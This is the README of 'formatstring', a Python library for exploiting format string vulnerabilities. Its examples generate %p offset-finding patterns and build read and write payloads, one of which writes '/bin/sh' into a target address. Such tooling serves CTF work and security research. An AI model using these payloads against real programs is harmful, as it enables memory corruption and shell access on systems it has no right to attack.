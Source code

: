 # Formatstring

Formatstring is a **python 3** library to help the exploitation of **format string vulnerabilities**.

## Install

**formatstring** can be installed from PyPI (Python package index) using pip:
```bash
pip install formatstring
```

## Examples

* Generate a pattern to detect the offset of the printed buffer
```bash
$ python formatstring/pattern_create.py 255
ABCDEFGH|%1$p|%2$p|%3$p|%4$p|%5$p|%6$p|%7$p|%8$p|%9$p|%10$p
```

* Compute the offset, given the result of the format string on the previous pattern
```bash
$ python formatstring/pattern_offset.py --arch x86_32
Enter the result of the format string on a pattern given by pattern_create:
ABCDEFGH|0x400|0xf776e5a0|0x4|0x4|0x7|0x1b3220|0x43424120|0x47464544|0x31257c48|0x257c7024
Found buffer at offset 8
```

* Generate a payload to read at a given address
```python
import sys
from formatstring import *

settings = PayloadSettings(offset=8, arch=x86_32)

p = ReadPayload(0x8048590)
sys.stdout.buffer.write(p.generate(settings))
```

* Generate a payload to write at various addresses
```python
import sys
from formatstring import *

settings = PayloadSettings(offset=8, arch=x86_32)

p = WritePayload()
p[0x8049790] = b'/bin/sh\x00'
p[0x80497a8] = struct.pack('@I', 0x01020304)
sys.stdout.buffer.write(p.generate(settings))
```

## Doc

The full documentation is [available here](https://github.com/arthaud/formatstring/wiki/User's-guide).

## Contributors

Author: Maxime Arthaud (maxime@arthaud.me)

## License

formatstring is under The MIT License (MIT)
